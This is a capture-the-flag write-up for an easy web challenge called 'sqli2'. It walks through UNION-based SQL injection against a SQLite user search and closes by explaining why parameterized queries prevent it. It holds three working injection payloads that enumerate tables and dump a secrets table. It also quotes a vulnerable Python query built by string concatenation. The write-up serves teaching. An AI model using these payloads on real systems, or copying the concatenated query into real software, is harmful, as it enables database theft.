




# sqli2 — UNION-based SQL Injection

## Category
Web

## Difficulty
Easy/Medium

---

## Description

Good luck solving this one buddy!

The application provides a **user search** feature.  
A hint is displayed at the bottom of the page:

> *Maybe the database has more tables than just users !*


---

## Initial Observation (Black-Box)

The page allows searching for usernames and displays matching results.



Normal searches return usernames from the database.  
This suggests that user input is used directly in a backend SQL query.

---

## Exploitation Strategy

Because this is a search feature, classic login bypass techniques do not apply.
Instead, we test for **UNION-based SQL Injection** to extract additional data.

The goal is to:
1. Discover database tables
2. Identify interesting tables
3. Extract sensitive data (the flag)

---

## Step 1 — Enumerate Tables

SQLite stores schema information inside the `sqlite_master` table.

Using the following payload:

```
' UNION SELECT name FROM sqlite_master WHERE type='table' -- 
```

We successfully retrieve table names.



One table stands out:

```
secrets
```

---

## Step 2 — Inspect Table Structure

To understand what the `secrets` table contains, we extract its SQL definition:

```
' UNION SELECT sql FROM sqlite_master WHERE name='secrets' -- 
```

This reveals the table structure.



The table contains a column named `secret`.

---

## Step 3 — Extract the Flag

Now that we know the column name, we directly extract its contents:

```
' UNION SELECT secret FROM secrets -- 
```



---

## Flag

The query successfully reveals the flag:

```
SecurinetsISTIC{UNION_SELECT_IS_ALSO_TO_BE_SANATIZED_bcdad215adc}
```

---

## Behind the Scenes (Explanation)

During the challenge, players do **not** have access to the source code.
However, reviewing it afterward explains exactly why the attack works.

The backend builds the SQL query like this:

```python
query_used = f"SELECT username FROM users WHERE username LIKE '%{term}%'"
```

The value entered by the user (`term`) is directly concatenated into the SQL
query without any sanitization or parameterized queries.

When we inject the payload:

```
' UNION SELECT secret FROM secrets --
```

The final SQL query executed by the database becomes:

```sql
SELECT username FROM users
WHERE username LIKE '%'
UNION SELECT secret FROM secrets --
%'
```

The `--` sequence comments out the rest of the original query, and the
`UNION SELECT` forces the database to return data from a completely different
table.

Because the application blindly displays all returned rows, the content of the
`secrets` table (which contains the flag) is rendered directly on the page.

This happens because:
- User input is inserted directly into SQL queries
- No validation or parameter binding is used
- UNION queries are allowed by the database

Using prepared statements or parameterized queries would completely prevent
this vulnerability.

---

## Conclusion

This challenge demonstrates a **classic UNION-based SQL Injection**.

Key takeaways:
- Search fields are just as dangerous as login forms
- SQLite metadata tables (`sqlite_master`) are extremely useful
- UNION-based SQLi allows full database extraction
- Proper query parameterization completely prevents this attack

A perfect follow-up to basic SQLi challenges 🔥
